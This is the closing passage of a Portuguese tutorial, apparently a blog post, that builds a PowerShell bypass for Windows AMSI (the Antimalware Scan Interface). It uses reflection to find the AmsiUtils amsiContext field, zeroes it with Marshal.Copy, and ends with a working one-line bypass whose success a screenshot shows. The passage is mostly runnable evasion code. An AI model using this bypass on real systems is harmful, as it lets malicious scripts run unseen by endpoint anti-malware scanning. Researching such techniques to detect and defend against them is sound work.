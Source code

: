 Para confirmar que esse número é realmente o que estamos procurando, vamos convertê-lo
para hexadecimal, que no meu caso, será **0x1563745672608**.

Por último, temos que zerar a estrutura, igual fizemos no WinDBG. Para isso, vamos salvar
esse endereço em uma variável

```powershell
$g=$f.GetValue($null)
```

Criar um ponteiro para acessar o conteúdo do endereço de memória

```powershell
[IntPtr]$ptr=$g
```

Depois vamos criar uma variável com o conteúdo 0

```powershell
[Int32[]]$buf=@(0)
```

E por último, copiar o valor para o ponteiro com a função Copy:

```powershell
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Colocando tudo isso em uma linha, teremos o seguinte bypass:

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Assim criamos um bypass funcional para o AMSI:

<img src="/assets/img/AMSIBYPASS (13).png">

Obrigado por ler até aqui, e até a proxima.
